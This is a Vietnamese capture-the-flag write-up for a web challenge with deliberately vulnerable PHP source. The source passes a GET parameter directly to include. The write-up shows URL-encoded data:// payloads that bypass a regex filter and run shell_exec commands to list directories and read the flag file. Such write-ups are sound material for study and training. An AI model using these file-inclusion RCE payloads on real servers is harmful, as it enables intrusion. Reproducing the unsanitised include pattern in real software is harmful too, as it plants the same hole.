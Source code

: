 # WEB_1

## Description 

```
mấy đứa đừng hack máy anh nhé .-.
mai anh còn đi làm nên đừng fuzzing nữa nhé ;(((
nhắc lại thương anh còn đang tích tiền cười vợ =(((
đừng hack máy anh
```
## Solution 

Do server đã bị hack tuy nhiên mk đã nhanh trí chụp lại source để tự built trên local , viết cái writeup này ==))

> Source code 

```
<?php
	if (!isset($_GET['file'])){
	    show_source(__file__);
	    exit(1);
	}

	$content = $_GET["file"];


	$filter_1 = "/^data(:)*(\/)*text(\/)*plain(;)*base64/i";
	$filter_2 ="/^http./i";

	if(preg_match($filter_1,$content)){
	    exit("Hacking not allowed here");
	}
	if(preg_match($filter_2,$content)){
	    exit("It's covid time, Do not go outside");
	}


	include $content;

	echo "<hr>";
	echo 'Keep moving forward<br />_Walt Disney_<br>';
?>

//Made in  dungdm@

```

Từ source ta có thể thấy có params file được truyền vào bằng GET và giá trị của nó sẽ được gán cho $content , sau đó biến này sẽ được truyền vào *include* để import file vào .

Đến đây có hai khả năng mà mình nghĩ đến :
   + Directory Traversal , tuy nhiên sau khi thử một số payload để đọc các file đặc biệt thì dường như không có hiệu quả .
   + LFI , lỗi này thì quá rõ ràng với dấu hiệu *?file=* và *include* và đây cũng là vuln trong chall này .

File Inclusion cho phép kẻ tấn công có thể xem các tệp trên máy chủ từ xa mà không cần nhìn thấy hoặc có thể thực thi các mã vào 1 mục tiêu bất kì trên trang web (source:https://viblo.asia/p/file-inclusion-vulnerability-exploit-4P856NMa5Y3).

Sau khi lang thang trên payloadsallthethinks(https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/File%20Inclusion#wrapper-phpfilter) mk tìm được một số payloads khả thi .

  + Đầu tiên mk nghĩ tới việc dùng *php://filter/convert.base64-encode/resource=* để đọc source file nhưng do không scan được nên vấn đề là sẽ ko biết được có file nào ẩn không mà đọc có mỗi file index.php thì được cho rồi :)) 
  + Sau ý tưởng đầu thất bại mk có tìm thử 1 số file mặc định hay đặc trung thì tìm đc file robots.txt có dạng :
  ```
  User-agent: *
  Disallow: /flag123456789.php
  ```
  hớn hở mở file này nhưng đời ko như là mơ *NOT FLAG TRY HARDER*
  + Sau một quá trình đi lung tung thì nhìn lại source code , ko bt tác giả filter cái data:// làm gì và với việc LFI cũng có thể dùng data:// để RCE thì mk nghĩ ôi thôi chắc là hướng này rồi .

Một chút về data_URIs **data:[<mediatype>][;base64],<data>** , ta có thể thấy rõ cấu trúc của nó ở đây :
	+ Đầu tiên là cái mime để xác định kiểu dữ liệu nếu bỏ qua sẽ mặc định là text/plain
	+ ;Base64 để encode những dữ liệu ở dạng nhị phân nếu dữ liệu của bạn ở dạng văn bản thì có thể bỏ qua .

Dựa vào các đặc trung trên ta có payloads sau :
> payloads : data://text/plain,<?php phpinfo();?>

Sau khi hiển thị được phpinfo() tưởng chừng giải quyết được vấn đề tuy nhiên sau khi tiến hành rce lại ko đc :

> payloads : data://text/plain,<?php echo shell_exec('ls');?>

Và mình mất khá nhiều thời gian cho lỗi này sau một hồi betak thì tác giả hint là cần encode url payloads vì một số kí tự đặc biệt sẽ khiến paylaods ko chạy đúng cách . Thế nhưng vẫn ko được lần này là do server chạy win mà mk dùng command linux mặc dù khi phpinfo mk có thấy rõ ràng server là win (gà vl).

Do không có nhiều kiến thức về command win nên phải nhờ hint tới tấp của tác giả cuối cùng cũng khai thác được :

> ?file=data%3A%2F%2Ftext%2Fplain%2C%3C%3Fphp%20echo%20shell_exec%28%27dir%20%2A%27%29%3B%3F%3E

![img](img/img1.png)

> ?file=data%3A%2F%2Ftext%2Fplain%2C%3C%3Fphp%20echo%20shell_exec%28%27dir%20%27%29%3B%3F%3E

![img](img/img2.png)

>?file=data%3A%2F%2Ftext%2Fplain%2C%3C%3Fphp%20echo%20shell_exec%28%27cd%20s3cr3t_m0Th3r_PhucDu%26type%20flag.txt%27%29%3B%3F%3E

![img](img/img3.png)

## Flag

KCSC{G00dJob_bae______G00000000000000000000000000000000DJ0000000b_GoodJ0b____Gudj0b}


